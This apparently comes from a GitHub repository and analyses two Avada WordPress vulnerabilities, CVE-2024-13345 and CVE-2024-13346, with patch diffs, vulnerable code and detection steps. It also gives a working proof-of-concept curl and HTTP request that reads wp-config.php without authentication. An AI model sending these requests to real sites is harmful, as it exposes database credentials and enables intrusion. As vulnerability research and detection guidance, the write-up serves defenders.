 # CVE-2024-13345 - Avada Builder <= 3.11.13 - Unauthenticated Arbitrary Shortcode Execution

## TL;DR

> [!NOTE] Although CVE-2024-13345 and CVE-2024-13346 are separate vulnerabilities, affecting different components, they were fixed at the same time. Therefore, detecting one is likely to mean that the WordPress instance is vulnerable to the other as well.

Check if the WordPress instance is vulnerable to CVE-2024-13345.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_alert]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"code":"rest_forbidden","message":"Sorry, you are not allowed to do that.","data":{"status":401}}
```

If the server returns the above message, it means that the Avada Builder plug-in has been **patched**.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_alert]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"content":"<div class=\"fusion-alert alert general alert-info fusion-alert-center awb-alert-native-link-color alert-dismissable awb-alert-close-boxed\" role=\"alert\"><div class=\"fusion-alert-content-wrapper\"><span class=\"alert-icon\"><i class=\"awb-icon-info-circle\" aria-hidden=\"true\"><\/i><\/span><span class=\"fusion-alert-content\"><\/span><\/div><button type=\"button\" class=\"close toggle-alert\" data-dismiss=\"alert\" aria-label=\"Close\">&times;<\/button><\/div>\n"}
```

If the server interprets the shortcode, it means that the Avada Builder plug-in is **vulnerable**.

Below is a proof-of-concept request for reading the file `wp-config.php` on the remote server.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_section_separator+divider_type="custom"+custom_svg="wp-config.php"]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"content":"<div class=\"fusion-section-separator section-separator custom fusion-section-separator-1\" style=\"--awb-spacer-height:65px;--awb-bg-size:100% 100%;\"><div class=\"fusion-section-separator-svg\"><div class=\"fusion-custom-candy-sep fusion-section-separator-svg-bg\" style=\"background-image:url( data:image\/svg+xml;utf8,<URL_ENCODED_FILE_CONTENT> );height:65px;height:65px;background-size:cover;\"><\/div><\/div><div class=\"fusion-section-separator-spacer\"><div class=\"fusion-section-separator-spacer-height\"><\/div><\/div><\/div>\n"}
```

> [!IMPORTANT]  
> If the file does not exist, no error is returned. The SVG content is just empty.

## CVE-2024-13345 - Avada Builder <= 3.11.13

The vulnerability seems to be located in the file `plugins/fusion-builder/inc/class-fusion-builder.php`.

```diff
diff -bur fusion-builder-v3.11.6/inc/class-fusion-builder.php fusion-builder-v3.11.15/inc/class-fusion-builder.php
--- fusion-builder-v3.11.6/inc/class-fusion-builder.php    2024-02-27 17:05:53.000000000 +0100
+++ fusion-builder-v3.11.15/inc/class-fusion-builder.php    2025-03-18 17:27:30.000000000 +0100
@@ -7119,7 +7299,10 @@
        [
            'methods'             => 'POST',
            'callback'            => [ $this, 'rendered_content_endpoint' ],
-                'permission_callback' => '__return_true',
+                'permission_callback' => function () {
+                    return current_user_can( 'edit_others_posts' );
+                },
+
        ]
```

A permission check callback is now invoked when using the REST API endpoint `/rendered_content`. Prior to the patch, it just returned `true`, thus allowing unauthenticated users to invoke `rendered_content_endpoint()`, which then calls the built-in function `apply_filters()` (=> `do_shortcode()`) on the user-controlled input `content`.

```php
// /inc/class-fusion-builder.php
public function register_rendered_content_endpoint() {
    // User media.
    register_rest_route(
        'awb',
        '/rendered_content',
        [
            'methods'             => 'POST',
            'callback'            => [ $this, 'rendered_content_endpoint' ],
            'permission_callback' => '__return_true',
        ]
    );
}

public function rendered_content_endpoint( $data ) {
    $content = apply_filters( 'the_content', $data->get_param( 'content' ) );

    return [ 'content' => $content ];
}
```

Reaching the vulnerable code is as simple as sending the following HTTP request.

```http
POST /wp-json/awb/rendered_content HTTP/2
Host: 10.11.12.13
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

content=[fusion_alert]
```

Shortcode execution is not interesting on its own though. A shortcode is just used to transform a "tag" (with optional parameters), such as `[fusion_alert]` here into dynamically generated HTML code. To do so, a custom handler must be defined for each shortcode. Therefore, it is interesting to check whether such a handler can be leveraged to achieve arbitrary code execution for instance.

Although I did not find such a handler, I did find one that would provide an arbitrary file read primitive.

In the file `plugins/fusion-builder/shortcodes/fusion-section-separator.php`, one can find a handler for the shortcode `[fusion_section_separator]`, which invokes `fusion_get_svg_from_file()` using a user-controlled file path, and returns the URL-encoded result to the client.

```php
// plugins/fusion-builder/shortcodes/fusion-section-separator.php
public function render( $args, $content = '' ) {
    // ...
    if ( 'triangle' === $this->args['divider_type'] ) {
        //...
    } elseif ( 'custom' === $this->args['divider_type'] && '' !== $this->args['custom_svg'] ) {

        $custom_svg_data                      = fusion_get_svg_from_file( $this->args['custom_svg'], [ 'background-color' => $this->args['backgroundcolor'] ] );
        $this->args['default_divider_height'] = ! empty( $custom_svg_data['height'] ) ? $custom_svg_data['height'] . 'px' : '65px';

        $this->args['svg_element'] = ! empty( $custom_svg_data['svg'] ) ? $custom_svg_data['svg'] : '';
        $candy                     = '<div ' . FusionBuilder::attributes( 'section-separator-shortcode-divider-svg-bg-image' ) . '></div>';

    }
    // ...
}
```

For instance, it is possible to retrieve the content of the file `wp-config.php` using the following HTTP request.

```http
POST /wp-json/awb/rendered_content HTTP/2
Host: 10.11.12.13
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

content=[fusion_section_separator+divider_type="custom"+custom_svg="wp-config.php"]
```

## CVE-2024-13346 - Avada Theme <= 7.11.13

The vulnerability seems to be located in the file `includes/class-awb-google-recaptcha.php`.

```diff
diff -bur Avada_7.11.12/includes/class-awb-google-recaptcha.php Avada_7.11.14/includes/class-awb-google-recaptcha.php
--- Avada_7.11.12/includes/class-awb-google-recaptcha.php    2024-12-16 11:00:34.000000000 +0100
+++ Avada_7.11.14/includes/class-awb-google-recaptcha.php    2025-01-29 11:03:30.000000000 +0100
@@ -74,7 +74,7 @@
        $recaptcha_error = ( isset( $_GET['recaptcha_error'] ) && '' !== $_GET['recaptcha_error'] ) ? sanitize_text_field( wp_unslash( $_GET['recaptcha_error'] ) ) : '';  // phpcs:ignore WordPress.Security.NonceVerification
        $type            = ( isset( $_GET['type'] ) && '' !== $_GET['type'] ) ? sanitize_text_field( wp_unslash( $_GET['type'] ) ) : '';  // phpcs:ignore WordPress.Security.NonceVerification    
        if ( $recaptcha_error && $type ) {
-            echo do_shortcode( '[fusion_alert margin_top="20px" type="' . $type . '"]' . $recaptcha_error . '[/fusion_alert]' );
+            echo do_shortcode( '[fusion_alert margin_top="20px" type="' . esc_attr( strip_shortcodes( $type ) ) . '"]' . esc_html( strip_shortcodes( $recaptcha_error ) ) . '[/fusion_alert]' );
        }
```

In version 7.11.14 of the theme, the function `strip_shortcodes()` was added, before invoking `do_shortcode()` using the user-controlled input `type`.

Reaching the vulnerable code seems to require Captchas to be enabled in the theme's settings though, which is not the default.

## References

CVE-2024-13345 - Avada Builder <= 3.11.13 - Unauthenticated Arbitrary Shortcode Execution

- [https://nvd.nist.gov/vuln/detail/CVE-2024-13345](https://nvd.nist.gov/vuln/detail/CVE-2024-13345)
- [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fusion-builder/avada-builder-31113-unauthenticated-arbitrary-shortcode-execution](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fusion-builder/avada-builder-31113-unauthenticated-arbitrary-shortcode-execution)
- [https://avada.com/documentation/avada-changelog/](https://avada.com/documentation/avada-changelog/)
- Researcher: [@mikemyers](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/michael-mazzolini)

CVE-2024-13346 - Avada Theme <= 7.11.13 - Unauthenticated Arbitrary Shortcode Execution

- [https://nvd.nist.gov/vuln/detail/CVE-2024-13346](https://nvd.nist.gov/vuln/detail/CVE-2024-13346)
- [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/Avada/avada-theme-71113-unauthenticated-arbitrary-shortcode-execution](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/Avada/avada-theme-71113-unauthenticated-arbitrary-shortcode-execution)
- [https://avada.com/documentation/avada-changelog/](https://avada.com/documentation/avada-changelog/)
- Researcher: [@mikemyers](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/michael-mazzolini)
